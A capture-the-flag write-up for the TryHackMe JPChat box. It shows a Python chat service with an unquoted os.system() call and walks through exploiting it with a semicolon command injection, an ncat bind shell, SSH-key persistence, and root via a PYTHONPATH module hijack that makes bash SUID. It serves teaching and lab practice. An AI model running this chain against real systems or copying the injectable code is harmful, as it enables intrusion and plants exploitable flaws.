 > JPGChat writeup | Tuesday 29th December
> https://tryhackme.com/jr/jpgchat

# Recon / Enum

---------------

Starting of with a classic nmap scan will reveal that there are 2 ports open.
Specifically port 22 and 3000.

`nmap -sC -sV -p- -v 10.10.166.220`

```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7b:21:46:4c:d3:fa:73:c8:47:94:3a:be:3a:cd:4c:63 (RSA)
|   256 94:07:43:bb:9c:fa:7e:a4:db:c4:13:6a:e5:1c:e5:65 (ECDSA)
|_  256 f2:97:ac:b3:2b:d2:e4:38:15:66:d2:5a:ab:16:2e:3b (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

Now 22 is just ssh, but 3000 is "JPChat"?
Now we can see that the source code for the application is at the admins github.

Lets try to connct to the application to check if we can find the source code.

`nc 10.10.166.220 3000`

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

Now this we have already seen, but lets try to send messages to the only channel available

```
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]:
```
As we can see, there are currently no users logged in.

After poking around at this `[MESSAGE]` form, there appears to be nothing useful.
But we should check out the `[REPORT]` form aswell.

```
this report will be read by Mozzie-jpg
your name:

```

As we can see, the report will be read by Mozzie-jpg!
That must be the admins alias, lets check github for him!

# Enumerating the application

After visiting the admins github, i have found the source code.
Here is the source code

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

What i first notice about this program is the `os` module, it is often used to send commands directly to the system.

The syntax for that is:
`os.system('COMMAND')`

And in the source code, there are two lines which use that .system() call.

```python
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```
The echo command, well echoes something to the terminal or it can be redirected to a file or other things.

### BUT, in this situasion it isn't properly handled!!!

The echo command should be surrounded by quotes, especially if it is going to be passed user input.
This can be exploited with a simple `;`, as it isn't surrounded by quotes, we should be able to run an extra command.

We can test this locally before firing it at the target. (AS YOU SHOULD)

```
➜  writeup: echo test; ls > test.txt                                        
test
➜  writeup: 
```
Now this only returns "test", why is that?
Lets try to cat out the file, just to see whats in it.

```
➜  writeup: cat test.txt 
README.md
test.txt
➜  writeup:
```

And as we can see, it included the output of the `ls` command!!!

---------------

# Exploitation

---------------

Now that we seem to have a working exploit, lets try to exploit the service.

Lets reconnect to the application and try to run the exploit!

<img src="exploit.png" />

Now that returned this to our nc listener:

```
➜  ~ nc -lnp 9999         
uid=1001(wes) gid=1001(wes) groups=1001(wes)
➜  ~ 
```
Now that is RCE, lets try to get a shell.
As luck would have it, this box has `ncat -e` enabled. So we could just create a simple bind shell to a high port (so we dont need sudo)

<img src="hanged_terminal.png"/>

And as we can see, the terminal stops working, this is a good sign, as it usually means that ncat is actually listening.

Now lets try to connect to the victim on port 9999 (IN A NEW TERMINAL)

<img src="RCE.png" />

### Now we have RCE

My first thought is to add my ssh public key to wes' authorized_keys file, so we have a full shell rather than this bare-bones shell.

After adding your public key to wes' authorized_keys file, you should be able to just ssh into wes.

---------------

# Privilege Escalation

---------------

Now that we have a stable shell + persistence, we can now move on to privilege escalation.

The first thing i do whenever i get on a box, is check for anything i can run as sudo

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Now what i want you to notice is the `env_keep`, this means that when we run something with sudo, it will keep that variable.

But first lets go check out that `test_module.py` file.

```
wes@ubuntu-xenial:~$ cd /opt/development/
wes@ubuntu-xenial:/opt/development$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jan 15 18:58 .
drwxr-xr-x 4 root root 4096 Jan 15 18:58 ..
-rw-r--r-- 1 root root   93 Jan 15 18:58 test_module.py
wes@ubuntu-xenial:/opt/development$ cat test_module.py 
#!/usr/bin/env python3
from compare import *
print(compare.Str('hello', 'hello', 'hello'))
wes@ubuntu-xenial:/opt/development$ 
```

So it imports a module named `compare`, now we can modify the PYTHONPATH variable to a directory which we can write into.

And we can then write our own malicious compare.py file, which in my case i wrote this into it

<img src="privesc.png">

if you write that into say /dev/shm/compare.py
and have set your PYTHONPATH variable to /dev/shm, this command should execute as root.
`export PYTHONPATH=/dev/shm`

```
wes@ubuntu-xenial:/opt/development$ sudo python3 /opt/development/test_module.py
Traceback (most recent call last):
  File "/opt/development/test_module.py", line 5, in <module>
    print(compare.Str('hello', 'hello', 'hello'))
NameError: name 'compare' is not defined
wes@ubuntu-xenial:/opt/development$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
wes@ubuntu-xenial:/opt/development$ 

```

### Now bash is SUID root!

Now we can just run the command `/bin/bash -p` and we should get a root shell!

```
wes@ubuntu-xenial:/usr/lib/python3.5$ /bin/bash -p
bash-4.3# id
uid=1001(wes) gid=1001(wes) euid=0(root) egid=0(root) groups=0(root),1001(wes)
bash-4.3# 
```

And as we can see, we are now `effective user-id 0` or `root`.

Good job, you have just rooted the machine, now go collect those flags!

---------------
